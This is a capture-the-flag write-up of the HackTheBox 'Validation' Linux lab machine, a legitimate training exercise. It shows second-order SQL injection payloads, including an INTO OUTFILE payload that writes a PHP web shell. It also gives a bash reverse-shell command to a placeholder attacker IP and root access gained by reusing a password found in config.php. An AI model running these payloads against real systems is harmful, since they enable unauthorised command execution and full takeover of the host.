 ![Screenshot 2024-12-11 100408](https://github.com/user-attachments/assets/bedac851-7cd6-480e-9085-ac0f40137276)# Validation Easy Linux Machine From HackTheBox Write up
<div align="center">
  <img src=https://github.com/user-attachments/assets/12a11652-02c6-4258-ac3c-c6ef6e81149f>
</div>
</br>
  
## Machine Description
Easy linux machine with Second-order SQL Injection vulnerability and reuse password.

## Vulnerability Found
1. Second-order SQL Injection
2. Permission to write a file using SQL query and save it in a directory
3. Reuse password

## Step to Reproduce

### Enumeration

### Network Enumeration

I used `nmap` to do a network enumaration. From enumerating the network, I found several services that are opened.

<div align="center">
  <img src=https://github.com/user-attachments/assets/7df17b14-1292-4e03-a9c9-6f1c4d73f061>
</div>
</br>

<div align="center">
  Nmap Output
</div>

From the picture above, the services that were opened are **SSH** in **port 22**, **HTTP** in **port 80** and **port 8080**.

### Web Enumeration

From finding out there are HTTP service with port 80, I was directly opened the web. 

<div align="center">
  <img src=https://github.com/user-attachments/assets/513d602a-7774-4b99-b7c1-df5826e27d00>
</div>
</br>

<div align="center">
   Web home page
</div>

When i tried to input a test input to see what how this web works, turns out after I registered, the web directed me to another directory which is `account.php`.

<div align="center">
  <img src=https://github.com/user-attachments/assets/b23fd352-0ffa-4727-915f-7739b1e16d2d>
</div>
</br>

<div align="center">
   Account.php page
</div>

From here, I had an assumption that on the backend, account.php could be using some SQL query to find all the players in that has certain country, which in this case is Brazil.

Next, using Burpsuite, I repeat the registration process but this time I intercepted them first before sending it to the server. I added `'` after the country parameter like this `country=Brazil'`. 

The `'` input made the database returned an error like this:

<div align="center">
  <img src=https://github.com/user-attachments/assets/a52daade-1e36-4797-b046-6d8986605f3e>
</div>
</br>

<div align="center">
  Database error message
</div>

My assumption was right. This web is vulnerable to SQL Injection, which more specifically is Second-order SQL Injection because the thing that we input are used in later/different part.

### Exploitation

To exploit this, first I needed to know how many column does the database return. So, I used UNION SQL Injection to do this. 

Payload

    ' UNION SELECT NULL-- -

<div align="center">
  <img src=https://github.com/user-attachments/assets/e8305a7f-c2ef-4369-a697-51e96c68f71a>
</div>
</br>

<div align="center">
  Union SQL Injection finding the number of column returned
</div>

Next, I added another `NULL` but it returned me an error. So, I knew that the database only return a column. Next, finding out whether that column returned a string or another type of data.

Payload:

    ' UNION SELECT 'a'-- -

With that payload, the database returned an 'a' string which tells me that the column indeed returning a string data type.

This is where I got into confusion because my lack of skill. At first, I thought I needed to find the admin user password and use it for something. Because of this, I found the table name and column name. Turns out, it was something else.

I needed to read the official walkthrough from HackTheBox. This is where I learn something new. I learned that we can write a file using SQL query and the database somehow will write it and save the file in the desired path. 

From the official walkthrough, it directly told that I needed to make a SQL query to write some php file with php command to get cmd command from the url query. I learned another thing that we can see current user (or database I didn't really understand) could have a permission to write a file by finding it out with some SQL query function.

Next, after I found out about that, I followed along on the official walkthrough.

Payload:

    ' UNION SELECT "<?php SYSTEM($_REQUEST['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'-- -

That payload will create a php file with the php code in it. Next, I tried to curl the request.

Payload:

    ' curl http://target-machine/your-file-name.php?cmd=id

<div align="center">
  <img src=https://github.com/user-attachments/assets/32533afd-eafc-4496-a49c-5861a9577902>
</div>
</br>

<div align="center">
  id command
</div>

It worked! Next, I tried to input a cmd to do reverse shell and set up a `netcat` listner to get the reverse shell.

Payload:

    ' curl target-machine/your-file-name.php  --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/your-vpn-ip/your-port 0>&1"'

With that payload, I got the reverse shell and found the user.txt


<div align="center">
  <img src=https://github.com/user-attachments/assets/badcbfed-dbff-4746-afb2-2232e39852e2>
</div>
</br>

<div align="center">
  user.txt
</div>

### Privilege Escelation

To do privesc, I searched the folder within the server and found a `config.php` containing a password for database. The file was in `/var/www/html`.

<div align="center">
  <img src=https://github.com/user-attachments/assets/2883f4d6-cc9c-436a-9579-053e4252cd2a>
</div>
</br>

<div align="center">
  password for database in config.php
</div>

I tried to do superuser into root using this password with `su root` command. It worked! Then I moved into `/root` directory and found the root.txt

<div align="center">
  <img src=https://github.com/user-attachments/assets/989625ed-7bc7-4062-852a-892e609217cc>
</div>
</br>

<div align="center">
  root.txt
</div>

Thanks for reading!
